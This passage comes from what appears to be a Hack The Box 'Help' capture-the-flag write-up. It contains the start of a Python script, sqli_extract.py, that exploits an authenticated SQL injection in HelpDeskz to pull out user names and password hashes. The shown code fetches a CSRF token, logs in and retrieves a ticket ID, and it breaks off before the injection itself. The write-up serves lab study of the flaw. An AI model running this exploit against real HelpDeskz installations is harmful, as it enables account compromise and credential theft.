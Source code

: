 ```py
    getVersion(rhost,id_ticket)
    
if __name__ == '__main__':
    main()
```

Now, let's exfiltrate the username and password hash of it

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-04-HackTheBox-Help/2021-09-04-HackTheBox-Help%2009:33:05.png)

sqli_extract.py

```py
#!/usr/bin/python3
# Reference: https://www.exploit-db.com/exploits/41200
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Help
# HelpDeskz SQLInjection Authenticated

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Let's get the csrf token
def getCSRFToken(rhost):
	# Make csrfMagicToken global
	global csrf_token
	# Make the request to get csrf token
	csrf_page = r.get(login_url, verify=False, proxies=proxies)
	# Get the index of the page, search for csrfMagicToken in it
	index = csrf_page.text.find("csrfhash")
	# Get only the csrfMagicToken in it
	csrf_token = csrf_page.text[index:index+128].split('"')[2]
	if csrf_token:
		print("[+] We get the CSRF Token to login! [+]")
		return csrf_token
	else:
		print("[+] Cannot get the CSRF_TOKEN [+]")
		exit

# Let's log in on the app
def login(csrf_token,username,password):
	data = {"do": "login", "csrfhash": "%s" %csrf_token, "email": "%s" %username, "password": "%s" %password, "btn": "Login"}
	login = r.post(login_url, cookies=r.cookies, data=data, proxies=proxies)
	if "Invalid email address or password" in login.text:
		print("[+] Invalid email address or password!! [+]")
	else:
		print("[+] Login successsss!!! [+]")

# Now, let's get a ticket id
def getTicketID(rhost):
	# Make id_ticket global
	global id_ticket
	ticket_url = 'http://' + rhost + '/support/?v=view_tickets'
	# Make the request to get id_ticket
	ticket_page = r.get(ticket_url, verify=False, proxies=proxies)
```